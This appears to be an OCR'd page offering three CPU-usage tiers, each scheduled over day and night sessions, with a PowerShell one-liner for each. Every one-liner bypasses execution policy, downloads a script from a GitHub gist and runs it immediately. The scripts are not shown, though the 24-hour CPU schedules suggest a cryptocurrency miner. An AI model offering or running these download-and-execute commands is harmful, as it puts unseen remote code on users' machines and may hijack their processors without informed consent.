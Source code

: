 MINIMUM

25% CPU Usage / 24 Hours
6:45-6:45 Day Session at 25%
7:00-7:00 Night Session at 25%

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/i7-7700/bc1eb60c0cded3fa70bf15b78def9e5f/raw/6bd65dc238c02ab9d8fe3698c16d977bdeab4e21/Minimum.ps1'))"

--------------------------------------------------------------------------

DEFAULT

75% CPU Usage / 24 Hours
6:30-6:30 Day Session at 50%
7:00-7:00 Night Session at 100%

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/i7-7700/01dc9aa6bb601755ae85b0214cc87458/raw/2a96a3c5f592b91e69d9b7c77928e68afc05d72d/Default.ps1'))"

--------------------------------------------------------------------------

FULL

100% CPU Usage / 24 Hours
6:50-6:50 Day Session at 100%
7:00-7:00 Night Session at 100%

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/i7-7700/c507fe6653e637032b03f681a9c4dc1a/raw/b6011af061915951b6dc480a355e34de3178c66c/Full.ps1'))"

--------------------------------------------------------------------------
